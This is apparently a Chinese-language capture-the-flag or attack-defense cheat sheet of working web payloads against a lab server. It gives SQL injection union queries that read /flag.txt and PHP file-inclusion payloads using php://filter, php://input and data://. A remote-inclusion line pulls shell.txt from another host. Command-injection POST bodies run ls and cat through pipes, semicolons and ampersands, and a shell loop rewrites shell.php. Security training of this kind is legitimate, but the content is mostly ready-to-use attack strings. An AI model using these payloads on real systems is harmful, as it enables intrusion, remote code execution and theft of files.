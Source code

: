 ## 常规漏洞 GET flag

#### SQL injection
```
http://172.16.2.234:8011/inject.php?id=1' and 1#
http://172.16.2.234:8011/inject.php?id=1 and 1#
http://172.16.2.234:8011/inject.php?id=1 order by 5#
http://172.16.2.234:8011/inject.php?id=1 order by 3#
http://172.16.2.234:8011/inject.php?id=1 order by 4#

http://172.16.2.234:8011/inject.php?id=-1 union select null# 
http://172.16.2.234:8011/inject.php?id=-1 union select null,null# 
http://172.16.2.234:8011/inject.php?id=-1 union select null,null,null# 

http://172.16.2.234:8011/inject.php?id=-1 union select null,@@version,null#
http://172.16.2.234:8011/inject.php?id=-1 union select null,null,load_file('/flag.txt')#
```

#### 文件包含

常见包含函数有：`include()、require()、include_once()、require_once()`
区别：

include是当代码执行到它的时候才加载文件,发生错误的时候只是给一个警告,然后继续往下执行
require是只要程序一执行就会立即调用文件,发生错误的时候会输出错误信息,并且终止脚本的运行
require一般是用于文件头包含类文件、数据库等等文件,include一般是用于包含html模版文件
`include_once()、require_once()`与(`include\require`)的功能相同,只是区别于当重复调用的时候，它只会调用一次。
```
<?php
include($_GET['filename']);    
?>
```

```
http://172.16.2.234:8011/include.php?filename=info.txt
http://172.16.2.234:8011/include.php?filename=file:///flag.txt

http://172.16.2.234:8011/include.php?filename=php://filter/convert.base64-encode/resource=/flag.txt
//读取到文件的base64编码，可用于读取php文件源码
echo "YmE2YzJkNDgzYjllZTQ5OWIwZjYxZjg4YmJlNGEzYzU="|base64 -d
ba6c2d483b9ee499b0f61f88bbe4a3c5
```
###### 下面的需要allow_url_include=On
```
//远程文件包含
http://172.16.2.234:8011/include.php?filename=[http|https|ftp|smb]://192.168.0.1/shell.txt //(需要allow_url_fopen=On并且 allow_url_include=On)

//php://input
http://172.16.2.234:8011/include.php?filename=php://input
POST: <?php echo file_get_contents("/flag.txt");?>

//data://
http://172.16.2.234:8011/include.php?filename=data://text/plain;base64,base64编码的php代码(不含结束标记?>)
echo '<?php echo file_get_contents("/flag.txt");'|base64
PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygiL2ZsYWcudHh0Iik7Cg==
http://172.16.2.234:8011/include.php?filename=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygiL2ZsYWcudHh0Iik7Cg==
```

#### 命令执行注入
```
http://172.16.2.234:8011/list.php
POST:ipaddr=/tmp|ls -al

http://172.16.2.234:8011/list.php
POST:ipaddr=/tmp|cat /flag.txt

http://172.16.2.234:8011/list.php
POST:ipaddr=/tmp;cat /flag.txt

//& urlencode>%26
http://172.16.2.234:8011/list.php
POST:ipaddr=/tmp %26 cat /flag.txt
POST:ipaddr=/tmp %26%26 cat /flag.txt
```

## 常规漏洞写不死马




### 对抗不死马
根据日志发现攻击日志。
```
while (true);do echo test >/var/www/html/shell.php;done &
```

